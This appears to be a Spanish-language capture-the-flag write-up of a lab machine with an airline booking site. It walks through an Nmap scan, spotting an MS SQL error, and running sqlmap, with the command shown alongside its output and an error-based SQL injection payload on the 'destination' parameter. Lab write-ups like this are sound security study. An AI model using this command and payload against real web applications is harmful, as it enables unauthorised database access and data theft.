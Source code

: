 ![](/assets/images/image-1.png)

La exploración inicial de la máquina mediante la herramienta Nmap reveló que solo un puerto se encontraba activo, específicamente el puerto 80, el cual estaba asociado con un servicio web bajo el protocolo HTTP.

Tras identificar el servicio web, procedimos a examinar su contenido, el cual se asemejaba a una página perteneciente a una aerolínea. En dicho sitio, localizamos un botón destinado a la reserva de vuelos.

Al acceder a la página de reservas, se nos permitió ingresar datos relacionados con posibles vuelos. Durante la prueba de entrada de datos, al insertar una comilla simple ('), se generó un error atribuido al sistema de gestión de bases de datos MS SQL. Esta situación sugiere la posibilidad de una vulnerabilidad por inyección SQL, la cual podría ser explotada aprovechando dicho error.

Con el fin de optimizar el proceso y ahorrar tiempo, decidimos emplear la herramienta SQLmap. Inicializamos el escaneo proporcionándole la información relativa al campo que mostró la vulnerabilidad. Utilizando el parámetro "-dbs", procedimos a extraer los nombres de todas las bases de datos disponibles. No obstante, la exploración no arrojó resultados de particular relevancia en dichas bases de datos.

```bash
❯ sqlmap --batch --url http://10.13.38.20/book-trip.php --data "destination=test" -dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.8#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[18:18:36] [INFO] resuming back-end DBMS 'microsoft sql server' 
[18:18:36] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: destination (POST)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: destination=test' AND 5908 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(107)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (5908=5908) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(106)+CHAR(98)+CHAR(106)+CHAR(113)))-- OSNd  

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
```